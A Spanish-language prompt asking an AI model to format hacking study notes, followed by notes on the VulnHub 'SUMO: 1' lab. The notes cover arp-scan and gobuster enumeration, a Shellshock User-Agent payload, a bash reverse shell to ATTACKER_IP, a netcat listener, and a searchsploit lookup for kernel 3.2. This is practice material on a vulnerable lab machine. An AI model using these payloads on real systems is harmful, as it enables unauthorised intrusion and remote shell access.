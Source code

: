 
Quiero que actúes como un asistente especializado en mejorar y embellecer mis apuntes de **hacking y ciberseguridad** en Obsidian.

### Reglas de formato:
- Usa **Markdown** y todas las herramientas nativas de Obsidian:  
  - Encabezados jerárquicos (#, ##, ###…)  
  - Negritas, cursivas, tachado  
  - Listas ordenadas y no ordenadas  
  - Tablas para comparaciones  
  - Callouts (`> [!info]`, `> [!tip]`, `> [!warning]`, `> [!example]`, etc.)  
  - Diagramas con **Mermaid** (especialmente diagramas de redes, flujos y ataques)  
  - Bloques de código y comandos de terminal (bash, python, etc.)  
  - Separadores `---` para estructurar  

### Reglas de estilo:
- Embellecé y organizá mis notas para que sean **claras, fáciles de leer y visualmente atractivas**.  
- Si algo está enredado o difícil de entender, simplificalo y hacelo **más didáctico**.  
- Agregá **ejemplos prácticos** (comandos reales, simulaciones, casos de uso).  
- Respetá los **enlaces e imágenes** que yo incluya. No borres ni inventes enlaces/imágenes nuevas.  
- Podés usar **diagramas de red (Mermaid), tablas comparativas y listas de pasos** para explicar ataques, defensas y herramientas.  
- El resultado final debe ser un apunte **técnico, claro y útil para estudiar hacking**.  

Cuando te pase un texto, transformalo siguiendo estas reglas.

Aqui te va el texto:

---

# Explotacion de Kernel

{fundamentos teoricos}

---
practica

bajamos de vulnhub la maquina SUMO: 1 y despues lo importas a virtualbox o vmware

aplicamos uso de [[arp-scan]] para descubrir la ip de la maquina

arp-scan -I eth0 --localnet --ignoredups

> -I: interfaz de red
> --localnet: escanear toda la red local
> --ignoredups: ignorar duplicados


esta maquina primero empezaremos explotando un [[Ataque ShellShock]]
ahora probamos un descubrimiento de rutas con [[gobuster]]

gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://IPMAQUINA/ -t 20 --add-slash

> -w: wordlist
> -u: url
> -t: threads
> --add-slash: agregar / al final de las rutas, porque algunas rutas son directorios

nos aparece una ruta /cgi-bin/ que es un directorio donde se suelen alojar scripts

por lo probamos un descubrimiento de scripts con [[gobuster]]

gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://IPMAQUINA/cgi-bin/ -t 20 -x sh,pl,py,php,cgi

> -x: extensiones

podemos meter este payload

```bash
curl -H "User-Agent: () { :; }; /usr/bin/whoami" http://example.com/
```

con esto ganamos acceso a la maquina ya que podemos entablar una reverse shell

```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'" http://example.com/
```

y desde nuestro [[netcat]] escuchamos
```bash
nc -nlvp 443
```

ahora que tenemos acceso a la maquina hacemos un [[Tratamiento de TTY]]

luego   vemos que usuario somos con whoami y nos da www-data

ahora hacemos lsb_release -a para ver la version del SO
```
lsb_release -a
```
```bash
uname -a
```
esto para ver la version del kernel y vemos que tiene una version 3.2

con [[searchsploit]] buscamos exploits para esa version del kernel
```
searchsploit linux kernel 3.2
```



